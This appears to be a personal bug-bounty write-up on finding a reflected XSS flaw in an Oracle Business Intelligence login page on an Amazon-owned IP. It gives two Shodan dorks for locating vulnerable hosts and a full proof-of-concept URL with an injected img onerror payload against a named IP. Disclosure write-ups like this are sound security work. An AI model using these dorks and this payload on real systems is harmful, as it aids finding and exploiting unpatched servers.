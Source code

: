 ```yaml
---
title: "How I found XSS vulnerability in Amazon in 5 minutes using shodan"
classes: wide
header:
  teaser: /assets/images/crackmes/shodan.jpeg
ribbon: DodgerBlue
categories:
  - bugbounty
toc: true
---
```


This is my first write-up. I was scrolling through twitter and I found this great tip:


![](/assets/images/crackmes/xss.png)

So I quickly went to shodan and write this dork:

    html:">Oracle Business Intelligence"

to find the websites that is vulnerable to this CVE with organizations names so the final dork was like this:

    html:">Oracle Business Intelligence" org:amazon

I found an IP which is owned by Amazon that is vulnerable to this CVE

the final POC is :

https://52.46.133.78/bi-security-login/login.jsp?msi=false&redirect=%22%3E%3Cimg/src/onerror%3dalert(document.domain)%3E


![](/assets/images/crackmes/xss2.PNG)


Thank you.
